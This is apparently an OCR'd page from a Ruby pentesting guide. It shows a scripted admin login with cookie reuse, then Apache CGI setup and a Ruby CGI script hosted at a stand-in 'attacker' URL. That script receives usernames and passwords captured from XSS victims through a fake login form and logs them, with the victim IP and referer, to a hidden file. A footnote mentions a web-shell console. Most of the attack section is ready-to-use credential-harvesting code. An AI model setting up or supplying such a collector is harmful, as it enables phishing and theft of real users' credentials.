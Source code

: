 
```ruby
puts "[*] Logging-in"
uri1 = URI.parse("http://host/login.aspx")
uri2 = URI.parse("http://host/report.aspx")

Net::HTTP.start(uri1.host, uri1.port) do |http|
  http.use_ssl = true if uri1.scheme == 'https'    # Enable HTTPS support if it's HTTPS
  puts "[*] Logging in"
  p_request  = Net::HTTP::Post.new(uri1)
  p_request.set_form_data({"loginName"=>"admin", "password"=>"P@ssw0rd"})
  p_response = http.request(p_request)
  cookies    = p_response.response['set-cookie']	# Save Cookies
  
  puts "[*] Do Post-authentication actions"
  Net::HTTP::Get.new(uri2)
  g_request  = Net::HTTP::Get.new(uri2)
  g_request['Cookie'] = cookies                     # Restore Saved Cookies
  g_response = http.request(g_request)
end
```


## CGI
### Get info - from XSS/HTMLi exploitation
When you exploit XSS or HTML injection you may need to receive the grepped data from exploited user to your external server. Here a simple example of CGI script take sent get request from fake login from that asks users to enter log-in with username and password then will store the data to `hacked_login.txt` text file and fix its permissions to assure that nobody can access that file from public.

Add the following to `/etc/apache2/sites-enabled/[SITE]` then restart the service
```
<Directory /var/www/[CGI FOLDER]>
        AddHandler cgi-script .rb
        Options +ExecCGI
</Directory>
```
Now, put the script in /var/www/[CGI FOLDER]. You can use it now.
```ruby
#!/usr/bin/ruby
# CGI script gets user/pass | http://attacker/info.rb?user=USER&pass=PASS
require 'cgi'
require 'uri'

cgi  = CGI.new
cgi.header  # content type 'text/html'
user = URI.encode cgi['user']
pass = URI.encode cgi['pass']
time = Time.now.strftime("%D %T")

file = 'hacked_login.txt'
File.open(file, "a") do |f|
  f.puts time   # Time of receiving the get request
  f.puts "#{URI.decode user}:#{URI.decode pass}"    # The data
  f.puts cgi.remote_addr    # Remote user IP
  f.puts cgi.referer    # The vulnerable site URL
  f.puts "---------------------------"
end
File.chmod(0200, file)  # To prevent public access to the log file

puts ""
```


[^1]: [WebShellConsole](https://github.com/KINGSABRI/WebShellConsole) is simple interactive console, interacts with simple web shells using HTTP GET rather than using browser. wsc will work with any shell use GET method. It takes care of all URL encoding too.
[3]: http://docs.seattlerb.org/mechanize/GUIDE_rdoc.html
[4]: http://docs.seattlerb.org/mechanize/EXAMPLES_rdoc.html
[5]: http://railscasts.com/episodes/191-mechanize
[6]: https://github.com/httprb/http
[7]: https://github.com/httprb/http/wiki